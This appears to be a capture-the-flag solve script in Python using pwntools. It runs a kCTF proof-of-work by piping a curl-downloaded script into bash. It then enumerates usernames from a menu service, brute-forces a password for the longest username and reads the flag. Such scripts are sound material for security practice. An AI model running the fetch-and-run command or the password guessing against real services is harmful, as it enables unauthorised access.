 ```python
        result = subprocess.run(
            f'bash -c "python3 <(curl -sSL https://goo.gle/kctf-pow) solve {token}"',
            shell=True,
            capture_output=True,
        ).stdout.strip()
        pwn.log.info(f"PoW solution = {result.decode()}")
        tn.sendlineafter(b"Solution? ", result)
        validation = tn.recvline(keepends=False).decode()
        pwn.log.info(f"PoW {validation = }")

    PoW()


def login(username, password):
    tn.recvuntil(b"menu> \n")
    tn.sendline(b"login")
    tn.sendline(username)
    tn.sendline(password)
    return b"Invalid" not in tn.recvline(keepends=False)


usernames = set()
while True:
    payload = tn.recvline()
    if b"@" in payload:
        usernames.add(payload.split()[1].decode())
    else:
        tn.unrecv(b"menu> \n")
        break

max_len_username = ""
for username in usernames:
    if len(max_len_username) < len(username):
        max_len_username = username

pwn.log.info(f"{max_len_username = }")

target_password = None
target_username = max_len_username.encode()
for cand in hexdigits:
    password_ex = cand.lower().encode() + b"01234"
    pwn.log.info("Trying: " + password_ex.decode())
    if login(target_username, password_ex):
        target_password = password_ex
        pwn.log.success("Found!")
        break

login(target_username, target_password)

tn.recvuntil(b"menu> \n")
tn.sendline(b"memo")

flag = tn.recvline(keepends=False).decode()
pwn.log.success(f"{flag = }")

tn.close()
```
